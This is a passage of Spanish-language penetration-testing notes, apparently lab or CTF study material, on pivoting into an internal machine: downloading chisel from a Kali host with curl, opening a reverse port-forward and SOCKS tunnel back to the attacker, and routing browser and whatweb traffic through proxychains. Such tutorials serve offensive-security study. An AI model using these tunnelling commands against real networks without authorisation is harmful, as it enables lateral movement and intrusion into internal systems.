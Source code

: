 Para ello, transferimos el fichero de kali a máquina 1, por ejemplo con servidor python y lo descargamos en máquina 1.

Si para descargar no tiene wget, descargar con:

```
curl http://<IP-kali>:<puertoserverPython>/chisel -o chisel
```

Le damos permisos con chmod +x.

Ahora dentro de máquina 1 debemos hacer el port forwarding:

```
./chisel client <ipKali>:<puertoEscuchandokali> R:<puertomaquina2>
```

Y así veríamos el puerto 80 por ejemplo de máquina 2, con kali.

Pero también podemos poner:

```
./chisel client <ipKali>:<puertoEscuchandokali> R:socks
```

Para poder ver todos los puertos.

Así se ha creado un túnel y te dice en qué puerto.

Ahora si desde kali en el navegador ponemos la ip de la máquina 2, no va a funcionar aunque tengamos el port forwarding. Porque no hemos accedido por el túnel.

Para ello, dentro del kali:

```
nano /etc/proxychains4.conf
```

Dentro de este fichero de configuración debemos añadir abajo del todo:

```
socks5 127.0.0.1 <puertoQueRecibeChiselEnKali>
```

Y ahora en el navegador, vamos a configuración > proxy, seleccionamos manual proxy.

Dentro de ahí, en donde pone socks host ponemos 127.0.0.1 y el puerto.

Entonces ahora desde el navegador ya podemos acceder.

Aunque ahora kali ve a máquina 2, pero al revés no. Así que si hacemos una reverse shell, no va a funcionar.

Además, si ahora desde kali hago:

```
whatweb 20.20.20.14
```

Aunque en el navegador funcione, aquí no, porque no está el proxy. Para ello:

```
proxychains whatweb 20.20.20.14
```
